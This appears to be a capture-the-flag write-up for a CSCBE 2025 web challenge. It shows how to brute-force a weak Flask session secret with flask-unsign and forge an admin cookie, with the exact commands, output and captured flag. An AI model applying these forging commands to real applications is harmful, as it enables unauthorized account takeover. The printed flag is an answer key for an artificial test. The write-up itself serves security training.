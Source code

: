 # Secure Share – CSCBE 2025

## Category  
Web

## Description  
Welcome to SecureShare, TechCorp's internal employee directory.  
Access your profile and view other employees' profiles securely.

Challenge files: `source.zip`  
Access the server: http://secure_share.challenges.cybersecuritychallenge.be

## Scenario  
TechCorp uses a Flask-based web app to allow employees to view their profiles. Authentication is managed via cookies signed with a secret key. But something about the way the sessions are handled doesn’t seem very... secure.

## Write-up  
After launching the challenge, I noticed that the session was handled using Flask cookies. Here's an example of the session cookie:

```
eyJ1c2VyX2lkIjo2fQ.Z9QNyw.yuxTmc84bXUUQf1a67138P5-U-Y
```

This is a **Flask session cookie**, which contains:
- The payload (base64 JSON-encoded)
- A timestamp
- A signature (HMAC)

To forge this cookie, I needed the **secret key** used to sign it. I tried guessing common keys like `secret`, `supersecretkey`, etc.

I used [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) to brute-force or decode the cookie:

```bash
flask-unsign -u -c "eyJ1c2VyX2lkIjo2fQ.Z9QNyw.yuxTmc84bXUUQf1a67138P5-U-Y"
```

Output:
```
Found secret key: supersecretkey
```

With the secret key in hand, I forged a new cookie for the admin account (user_id 3 is usually the admin):

```bash
flask-unsign -s -c "{'user_id': 3}" --secret "supersecretkey"
```

I then replaced my browser cookie with the forged one and refreshed the page.

The profile page now showed the **admin profile**, and the flag was revealed.

## Solve script  
No script needed — I solved it using the command line:

```bash
# Unsigned to retrieve the key
flask-unsign -u -c "<original_cookie>"

# Sign a new cookie with admin privileges
flask-unsign -s -c "{'user_id': 3}" --secret "supersecretkey"
```

## Flag  
```
CSC{ID0R_1s_N0t_S0_S3cur3_4ft3r_4ll}
```
